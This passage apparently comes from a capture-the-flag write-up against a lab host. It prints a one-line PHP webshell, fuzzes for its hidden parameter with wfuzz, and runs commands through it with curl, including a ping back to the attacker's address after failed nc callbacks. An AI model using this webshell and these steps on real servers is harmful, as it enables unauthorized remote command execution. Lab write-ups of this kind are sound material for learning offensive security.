     

If it’s anything like my `php` webshells, it’s something simple like `<?php
system($_GET["cmd"]); ?>`. But to use that, I’ll need to know what parameter
it’s reading. I’ll use `wfuzz` to try a bunch. As always, I’ll start this, see
the length of the default response, kill it, and add (in this case) `--hh 0`
and start again. This finds the parameter:

    
    
    root@kali# wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://sec03.rentahacker.htb/shell.php?FUZZ=id --hh 0
    
    ********************************************************
    * Wfuzz 2.3.4 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://sec03.rentahacker.htb/shell.php?FUZZ=id
    Total requests: 2588
    
    ==================================================================
    ID   Response   Lines      Word         Chars          Payload
    ==================================================================
    
    000197:  C=200      1 L        3 W           61 Ch        "hidden"
    
    Total time: 55.28373
    Processed Requests: 2588
    Filtered Requests: 2587
    Requests/sec.: 46.81304
    

### RCE

I can test this out with curl:

    
    
    root@kali# curl http://sec03.rentahacker.htb/shell.php?hidden=id
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
    

If I want to do any longer commands, I’ll need to urlencode them. I can have
curl do that for me too:

    
    
    root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode "hidden=id"
    uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)
    

### Connectivity

Unfortunately, I can’t seem to get anything to connect back to me. I tried on
numerous ports to connect back with `nc`, but all without success. I was able
to ping myself:

    
    
    root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode "hidden=ping -c 1 10.10.14.5"
    PING 10.10.14.5 (10.10.14.5) 56(84) bytes of data.
    64 bytes from 10.10.14.5: icmp_seq=1 ttl=63 time=23.1 ms
    
